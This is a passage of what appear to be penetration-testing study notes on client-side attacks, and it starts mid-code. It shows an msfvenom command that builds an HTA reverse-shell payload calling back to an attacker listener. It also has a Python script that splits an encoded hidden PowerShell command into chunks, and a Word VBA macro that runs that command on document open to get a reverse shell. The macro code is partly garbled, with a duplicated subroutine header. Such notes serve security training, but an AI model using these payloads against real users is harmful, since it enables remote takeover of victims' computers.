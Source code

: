 ```hta
  
  self.close();
    
</script>
  
</body>
</html>
```
We can place this code in a file on our Kali machine (`poc.hta`) and serve it from the Apache web server. Once a victim accesses this file using Internet Explorer.
### HTA Attack in Action
Creating HTA payload with msfvenom (to get reverse shell)
```sh
kali@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```
We will host this new HTA application on our Kali machine and launch a Netcat listener to test our attack. 
## Exploiting Microsoft Office
### Microsoft Word Macro
The Microsoft Word macro may be one the oldest and best-known client-side software attack vectors.
Macros can be written from scratch in Visual Basic for Applications (VBA), which is a fully functional scripting language with full access to ActiveX objects and the Windows Script Host, similar to JavaScript in HTML Applications.
Creating a Microsoft Word macro is as simple as choosing the *VIEW* ribbon and selecting*Macros*.  

Python script to split Base64 encoded string:
```python
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

Macro invoking powershell to create a reverse shell:
```vbs
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
Sub MyMacro()
    Dim Str As String
    
    Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
    ...

    CreateObject("Wscript.Shell").Run Str
End Sub
  
End Sub
```